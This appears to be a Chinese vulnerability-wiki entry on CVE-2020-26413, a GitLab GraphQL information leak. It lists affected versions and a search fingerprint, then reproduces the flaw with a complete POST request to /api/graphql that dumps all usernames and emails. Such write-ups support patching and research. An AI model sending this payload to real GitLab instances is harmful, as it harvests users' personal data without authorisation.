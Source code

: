 # GitLab Graphql邮箱信息泄露漏洞 CVE-2020-26413

## 漏洞描述

GitLab中存在Graphql接口 输入构造的数据时会泄露用户邮箱和用户名

## 漏洞影响

<a-checkbox checked>GitLab 13.4 - 13.6.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="GitLab"</a-checkbox></br>

## 漏洞复现

漏洞来源为 hackone上的一篇公开报告

<a-alert type="success" message="https://gitlab.com/gitlab-org/gitlab/-/issues/244275" description="" showIcon>
</a-alert>
<br/>



![img](/assets/PeiQi-Wiki/img/gitlab-1.png)



意思为当使用构造的语句在接口查询时会返回邮箱信息，如图

<a-alert type="success" message="访问 URL http://xxx.xxx.xxx.xxx/-//graphql-explorer" description="" showIcon>
</a-alert>
<br/>

![img](/assets/PeiQi-Wiki/img/gitlab-2.png)



Gitlab本身不允许获取账号邮箱信息，这里通过调用 Graphql 用户名查询造成了邮箱泄露漏洞

查看完报告后发现漏洞利用需要有账号用户名，在不知道的情况下无法获取邮箱，在[Graphql官网](https://graphql.cn/)查看得知可以通过另一个构造的语句一次性返回所有的用户名和邮箱



![img](/assets/PeiQi-Wiki/img/gitlab-3.png)



发包调用了 `/api/graphql` 接口发送数据

完整数据包为

```json
POST /api/graphql HTTP/1.1
Host:
Content-Length: 212
Content-Type: application/json


{"query":"{\nusers {\nedges {\n  node {\n    username\n    email\n    avatarUrl\n    status {\n      emoji\n      message\n      messageHtml\n     }\n    }\n   }\n  }\n }","variables":null,"operationName":null}
```

![img](/assets/PeiQi-Wiki/img/gitlab-4.png)



成功返回数据，造成 Gitlab的用户邮箱信息泄露


